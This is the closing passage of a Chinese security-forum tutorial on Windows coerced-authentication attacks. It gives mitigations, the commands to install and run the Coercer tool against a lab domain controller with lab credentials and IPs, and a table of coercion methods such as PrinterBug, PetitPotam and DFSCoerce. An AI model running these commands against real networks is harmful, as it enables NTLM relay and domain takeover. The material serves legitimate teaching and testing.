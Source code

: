 #### 缓解措施

- 删除Exchange上的高权限用户
- 启用 LDAP 签名，开启 LDAP 通道绑定
- 打微软补丁

三、集成工具推荐 - Coercer
------------------

Coercer 是一款集成多种方法对目标服务器进行强制验证的python脚本  
工具地址 - [Coercer](https://github.com/p0dalirius/Coercer)

### 工具安装

```shell
git clone https://github.com/p0dalirius/Coercer
python3 -m pip install coercer
```

### 工具使用

分析目标服务器可利用的接口，使用 --analyze 参数

```shell
python3 Coercer.py -u spiderman -p 123.com -d hack.lab -l 20.20.20.100 -t 20.20.20.6 --analyze
```

PS：加 -v 可以显示更加详细的信息

![x1NvND.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-a84a9fadf7dde172a609ff24573e979def4b49e2.png)

执行强制验证攻击，默认先使用了 MS-EFSR::EfsRpcOpenFileRaw 方法

```shell
python3 Coercer.py -u spiderman -p 123.com -d hack.lab -l 20.20.20.100 -t 20.20.20.6
```

![x1US9H.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-6c3298060f40a5c26306e3caece6cddffa4e9078.png)

四、总结
----

本文介绍了5种强制验证的思路，下面将其进行对比汇总成一个表格

| Coerce | SMB named pipe | Protocol | API / Methods |
|---|---|---|---|
| PrinterBug | \\PIPE\\spoolss | MS-RPRN | RpcRemoteFindFirstPrinterChangeNotificationEx |
| PeitiPotam | \\PIPE\\lsarpc | MS-EFSR | EfsRpcOpenFileRaw EfsRpcEncryptFileSrv EfsRpcDecryptFileSrv EfsRpcQueryUsersOnFile EfsRpcQueryRecoveryAgents EfsRpcFileKeyInfo |
| DFSCoerce | \\pipe\\netdfs | MS-DFSNM | NetrDfsRemoveStdRoot NetrDfsAddStdRoot |
| ShadowCoerce | \\pipe\\FssagentRpc | MS-FSRVP | IsPathSupported IsPathSupported |
| PrivExchange |  |  | PushSubscription |